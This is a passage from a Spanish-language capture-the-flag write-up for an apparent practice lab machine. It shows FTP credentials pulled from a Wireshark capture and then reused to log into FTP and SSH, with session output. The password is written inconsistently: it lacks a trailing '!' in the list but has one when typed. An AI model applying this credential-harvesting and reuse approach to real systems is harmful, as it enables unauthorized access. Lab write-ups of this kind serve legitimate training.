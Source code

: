 > **Wireshark** es un analizador de protocolos utilizado para realizar análisis y solucionar problemas en redes de comunicaciones, para análisis de datos y protocolos, y como una herramienta didáctica.
{: .prompt-info}


![ftp](/cap/ftp.png)




Al revisar todo el flujo de los paquetes, se puede ver que en este se encuentra el inicio de sesión dentro del servidor **FTP**; con esto, puede intentar ingresar al servicio ya que se ven las credenciales en texto plano.

![ftpfollow](/cap/ftpfollow.png)

Por lo que ahora se sabe que las credenciales son:

- Usuario : nathan 
- Clave : Buck3tH4TF0RM3

![creds](/cap/creds.png)


Con esto, puede intentar conectarse al servidor FTP y se puede ver que las credenciales son válidas.

```bash
ftp nathan@10.10.10.245

Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: Buck3tH4TF0RM3!
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||27031|)
150 Here comes the directory listing.
-r--------    1 1001     1001           33 Dec 27 19:50 user.txt
226 Directory send OK.
ftp> 
```
{: .nolineno}


Pero al ver que lo único interesante dentro del servidor es la flag, se puede intentar probar las **credenciales dentro de otro servicio** como el **SSH**.
```bash
ssh nathan@10.10.10.245
nathan@10.10.10.245's password: Buck3tH4TF0RM3! 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Dec 27 22:06:57 UTC 2023

  System load:           0.08
  Usage of /:            36.6% of 8.73GB
  Memory usage:          21%
  Swap usage:            0%
  Processes:             222
  Users logged in:       0
  IPv4 address for eth0: 10.10.10.245
  IPv6 address for eth0: dead:beef::250:56ff:feb9:44b1
```